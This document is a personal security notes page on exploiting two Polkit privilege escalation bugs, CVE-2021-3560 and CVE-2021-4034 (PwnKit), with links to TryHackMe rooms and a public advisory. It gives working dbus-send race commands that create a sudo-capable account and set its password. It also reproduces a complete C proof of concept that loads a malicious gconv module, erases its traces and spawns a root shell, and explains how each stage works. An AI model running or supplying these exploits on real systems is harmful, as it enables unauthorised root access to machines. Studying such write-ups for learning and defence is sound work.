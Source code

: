 # Exploiting Polkit

author:: Nathan Acks  
date:: 2022-02-13

# CVE-2021-3560

This bug is a combination of a race condition and bad error handling. Basically:

* Manually request an action that requires superuser access via DBus.
* Kill `dbus-daemon` *after* Polkit has received the message but *before* it responds (there's the race).
* Polkit requests the user ID associated with the message, but since DBus has restarted it can't reference the original message ID and responds with an error.
* Polkit mishandles the error, substituting 0 for the ID of the requesting user (there's the botched error handling).
* Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

Ubuntu fixed with with version `0.105-26ubuntu1.1` of the `policykit-1` package (the last vulnerable version was `0.105-26ubuntu1`).

* [TryHackMe: Polkit CVE-2021-3560](tryhackme-polkit-cve-2021-3560.md)

## Exploitation

(0) Construct a message similar to the following:

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

* `string:attacker` - the name of the user to create.
* `string:"Pentester Account"` - the user "description" (GECOS field).
* `int32:1` - grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```bash
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

(3) DBus needs to be killed approximately *halfway* through this execution period. We *cannot* wait for the application to return, so instead we background it.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```bash
id attacker
```

(5) Create a new password hash for the user.

```bash
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user's password.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there's *no* space between `User` and the ID, so you'll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string`  being passed in the user password hint.

(7) Log in as the new user (probably via `su`).

# CVE-2021-4034 ("Pwnkit")

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

*This version of the exploit will leave traces in the target's logs!*

Here's what happens on execution:

(1) The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.

(2) The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".

(3) The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 -- so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.

(4) Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.

(5) Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.

(6) Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH... And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

* [TryHackMe: Pwnkit (CVE-2021-4034)](tryhackme-pwnkit-cve-2021-4034.md)
* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
